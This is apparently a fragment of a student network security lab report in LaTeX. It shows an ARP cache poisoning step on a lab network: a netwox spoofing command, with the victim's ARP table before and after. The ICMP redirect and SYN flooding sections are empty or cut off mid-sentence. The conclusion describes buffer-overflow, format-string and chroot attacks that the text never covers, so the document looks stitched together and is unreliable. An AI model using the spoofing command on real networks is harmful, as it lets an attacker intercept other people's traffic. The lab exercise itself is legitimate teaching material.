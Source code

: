 \documentclass[12pt, a4paper, pdflatex]{article}
\begin{document}
\begin{lstlisting}
# Before attack
seed@victim: arp-a
(192.168.0.103) at 08:00:27:93:07:7e
\end{lstlisting}

Using netwox we could spoof a packet that updates ARP cache on the victim's machine and replace the entry with the MAC of the attacker:

\begin{lstlisting}
sudo netwox 33 -b 08:00:27:A6:EB:87 -g 192.168.0.103 
	-h 08:00:27:A6:EB:86 -i 192.168.0.101
\end{lstlisting}

Here 33 is the tool for spoofing ARP packages, we tell the tool the original MAC and new MAC addresses, as well as IP addresses of the victim and the IP address of which entry in the ARP cache we want to modify.

After spoofing the packet, running arp -a tool on the victim's machine results in the following output:

\begin{lstlisting}
seed@victim: arp-a
(192.168.0.103) at 08:00:27:ee:0d:0f
\end{lstlisting}


\subsection{ICMP Redirect Attack}

ICMP messages are used to send error or redirection information in the IP protocol.

\subsection{SYN Flooding Attack}

In 


\section{Conclusions}
Attacks presented here show how a user can make harm to the system or gain \texttt{root} privileges by exploiting vulnerabilities in: \texttt{C} string formatting, \texttt{chroot} command/system call, and \texttt{C} buffer overflow.

Many of these vulnerabilities are created by programmers, often not realizing that they can open a way to overtake their systems. It makes us realize how important it is to use safe version of methods that manipulate with buffers and memory, especially in a low level programming where there is no extra level of abstraction provided by a virtual machine or some runtime.
\end{document}
